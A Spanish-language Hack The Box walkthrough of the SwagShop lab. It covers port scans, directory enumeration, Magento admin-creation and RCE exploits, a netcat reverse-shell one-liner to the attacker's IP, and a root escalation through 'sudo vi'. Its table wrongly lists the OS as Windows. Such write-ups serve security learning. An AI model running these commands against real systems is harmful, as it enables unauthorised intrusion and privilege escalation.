



Hack The Box - SwagShop

Contenido
| Nombre | SwagShop |
|---|---|
| OS | Windows |
| Puntos | 20 |
| Dificultad | Facil |
| IP | 10.10.10.140 |
| Maker | ch4p |
MASSCAN
Escaneo de puertos udp/tcp.
root@sckull:~/htb/swagshop# masscan -p1-65535,U:1-65535 10.10.10.140 --rate=1000 -e tun0
Starting masscan 1.0.4 (http://bit.ly/14GZzcT) at 2019-05-13 17:43:20 GMT
-- forced options: -sS -Pn -n --randomize-hosts -v --send-eth
Initiating SYN Stealth Scan
Scanning 1 hosts [131070 ports/host]
Discovered open port 22/tcp on 10.10.10.140
Discovered open port 80/tcp on 10.10.10.140
NMAP
EScaneo de puertos 22, 80.
# Nmap 7.70 scan initiated Mon May 13 12:54:19 2019 as: nmap -sV -p22,80 -o nmap.scan 10.10.10.140
Nmap scan report for 10.10.10.140
Host is up (0.19s latency).
PORT STATE SERVICE VERSION
22/tcp open ssh OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
80/tcp open http Apache httpd 2.4.18 ((Ubuntu))
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Mon May 13 12:54:27 2019 -- 1 IP address (1 host up) scanned in 8.08 seconds
HTTP
Visitamos la pagina principal y nos muestra una tienda con algunos productos.

GOBUSTER
Algunos directorios y paginas encontradas con gobuster.
=====================================================
Gobuster v2.0.1 OJ Reeves (@TheColonial)
=====================================================
[+] Mode : dir
[+] Url/Domain : http://10.10.10.140/
[+] Threads : 10
[+] Wordlist : /usr/share/wordlists/dirb/common.txt
[+] Status codes : 200,204,301,302,307,403
[+] Extensions : php,txt,html
[+] Timeout : 10s
=====================================================
2019/05/13 13:05:05 Starting gobuster
=====================================================
/api.php (Status: 200)
/app (Status: 301)
/cron.php (Status: 200)
/downloader (Status: 301)
/errors (Status: 301)
/favicon.ico (Status: 200)
/includes (Status: 301)
/index.php (Status: 200)
/index.php (Status: 200)
/install.php (Status: 200)
/js (Status: 301)
/lib (Status: 301)
/LICENSE.txt (Status: 200)
/LICENSE.html (Status: 200)
/media (Status: 301)
/pkginfo (Status: 301)
/server-status (Status: 403)
/shell (Status: 301)
/skin (Status: 301)
/var (Status: 301)
=====================================================
2019/05/13 13:08:09 Finished
=====================================================
Magento eCommerce - Exploit
Al investigar un poco acerca de la plataforma nos encontramos un exploit el cual crea un usuario dentro de la base de datos con permisos de administracion, editamos un poco el exploit especificamente el usuario (username="sckull") y contraseña (password="sckull") para mostrar une explotacion exitosa tambien debemos de cambiar el target con el valor de target = "http://10.10.10.140/index.php", mas informacion acerca de esta vulnerabilidad.
Obtenemos acceso a la plataforma de Magento como administrador.

Ahora que tenemos acceso a la plataforma con nuestras credenciales podemos utilizar un segundo exploit el cual executa comandos en la maquina, para ello debemos de agregar usuario (username) y contraseña (password) que creamos con el anterior exploit de igual forma agregamos la fecha que se encuentra en /app/etc/local.xml.
Magento CE < 1.9.0.1 Post Auth RCE
Explotacion

SHELL - www-data
Ahora que podemos ejecutar comandos por medio de un exploit vamos a obtener una shell inversa.
CMD:
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.15.31 9090 >/tmp/f

Actualizamos nuestra shell a una mas estable con python. SHELL:

Dentro de la carpeta principal del usuario haris encontramos nuestra bandera user.txt.

Privilege Escalation
Ahora que tenemos una shell con acceso de privilegio bajo hacemos una pequeña enumeracion de los programas que podamos, por medio del comando sudo ejecutar, encontramos que podemos ejecutar vi con privilegios de administracion.
Para mostrar los comandos que podemos ejecutar con sudo utilizamos sudo -l.

Utilizamos vi para poder abrir una shell como root para ello vamos a utilizar un archivo que se encuentra en /var/www/html/ ya que es la direccion donde tiene permitido vi ejecutarse o editar archivos mediante sudo.
sudo /usr/bin/vi /var/www/html/install.php
Luego de que se habra el editor presionamos la tecla ESC y escribimos :shell y se abrira una shell como usario root.

Obtenemos nuestra bandera root.txt.
